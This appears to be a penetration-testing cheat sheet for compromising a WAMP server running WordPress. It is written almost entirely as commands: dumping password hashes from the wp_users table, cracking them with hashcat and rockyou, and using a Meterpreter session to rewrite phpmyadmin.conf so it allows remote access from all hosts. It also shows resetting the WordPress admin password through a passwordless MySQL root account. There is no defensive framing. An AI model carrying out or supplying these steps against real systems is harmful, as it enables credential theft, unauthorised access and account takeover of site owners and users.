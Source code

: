 # WAMP

- Check Web app database for hashed user credentials e.g. WordPress.
```
show databases;
use wordpress;
select * from wp_users;

1 | admin      | $P$BXzMzwqxm65vuHegt/rsJN2VbXPtT.1 | admin         | admin@example.com
```

- Crack hashed credentials.
```
hashcat -m400 -a0 hashes.txt /usr/share/wordlists/rockyou.txt
```

- Modify phpmyadmin.conf to allow remote access.
```
meterpreter > cd C:\\wamp\\alias\\
meterpreter > dir
meterpreter > download C:\\wamp\\alias\\phpmyadmin.conf

Edit ACL:

<Directory "c:/wamp/apps/phpmyadmin3.4.10.1/">
    Options Indexes FollowSymLinks MultiViews
    AllowOverride all
        Order Deny,Allow --> Delete
        Deny from all --> Delete
        Allow from 127.0.0.1 --> Allow from all
</Directory>

meterpreter > upload ~/phpmyadmin.conf
meterpreter > cat phpmyadmin.conf
meterpreter > shell

net stop wampapache
net start wampapache
```

- There is no such thing as a phpMyAdmin user. phpMyAdmin is a front-end for MySQL, so we're talking about MySQL users.
```
http://<ip>:8585/phpmyadmin

Your configuration file contains settings (root with no password) that correspond to the default MySQL privileged account. Your MySQL server is running with this default, is open to intrusion, and you really should fix this security hole by setting a password for user 'root'.
```

- Change WordPress admin password from phpMyAdmin.
```
Click on wordpress.
Click on wp-users.
Edit admin user.
Set user_pass to MD5 (function) and password123 (Value).

Go back to http://<ip>:8585/ and click on wordpress under Your Projects.
Log in with the new password.
```
